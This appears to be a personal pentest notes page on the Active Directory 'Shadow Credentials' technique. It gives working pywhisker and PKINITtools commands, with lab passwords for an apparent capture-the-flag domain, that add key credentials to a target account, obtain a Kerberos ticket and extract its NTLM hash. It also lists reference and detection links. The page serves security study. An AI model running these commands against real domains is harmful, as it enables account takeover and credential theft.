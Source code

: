 +++
title = "Pentest - Active Directory - Shadow Credentials"
author = ["Kyle Bednar"]
tags = ["kerberos"]
draft = false
+++

## Shadow Credentials {#shadow-credentials}

[pywhisker](https://github.com/ShutdownRepo/pywhisker)

Abuse the GenericWrite ACL to get control of an account by adding shadow credentials:

```shell { linenos=true, linenostart=1 }
python3 /opt/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
```

The output is a PFX cert that can be used to authenticate as the user. Get a `TGT` for the user with [PKINITtools](https://github.com/dirkjanm/PKINITtools):

```shell { linenos=true, linenostart=1 }
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx vGRMeeb9.pfx certified.htb/management_svc -pfx-pass '25nQ6mg4JUTeQEjjNRE2' management_svc.ccache
```

This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with `getnthash.py` from the same toolkit to get the NTLM hash of the management_svc user.


### See also: [targetedKerberos](https://github.com/ShutdownRepo/targetedKerberoast)   [Targeted Kerberoast]({{< relref "targeted_kerberoast.md" >}}) {#see-also-targetedkerberos-targeted-kerberoast--targeted-kerberoast-dot-md}


### Links {#links}

[dsinternals](https://www.dsinternals.com/en/indicator-of-compromise-shadow-credentials-ntlm-relay-impacket/)
[Detecting shadow credentials](https://cyberstoph.org/posts/2022/03/detecting-shadow-credentials/)
[hacker recipes](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
[hackingarticles](https://www.hackingarticles.in/shadow-credentials-attack/)
[medium](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

